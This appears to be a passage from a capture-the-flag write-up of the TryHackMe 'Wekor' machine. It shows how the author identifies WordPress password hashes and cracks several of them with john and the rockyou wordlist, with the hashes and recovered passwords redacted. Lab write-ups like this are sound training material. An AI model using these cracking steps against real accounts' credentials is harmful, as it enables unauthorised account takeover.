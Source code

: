 # Initial Foothold

Hmm... **The user `admin` sounds like having administrator level in `site.wekor.thm`'s WordPress. Let's crack his hash via `john`!**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# nano admin.hash 

┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash 
Using default input encoding: UTF-8
No password hashes loaded (see FAQ)
```

**Wait. Not loaded? Let me check it's hash type via `hash-identifier`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# hash-identifier 
[...]
 HASH: $P${Redacted}

 Not Found.
```

Hmm... That weird. **How about other 3 users hash?**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# hash-identifier 
[...]
 HASH: $P${Redacted}

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
 HASH: $P${Redacted}

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
 HASH: $P${Redacted}

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

**Looks like all the hashes are crackable except the `admin` one. Let's crack all of them!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# nano wordpress.hash
                                                                                       
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt wordpress.hash  
[...]
{Redacted}          (wp_jeffrey)     
{Redacted}           (wp_eagle)     
{Redacted}         (wp_yura) 
```
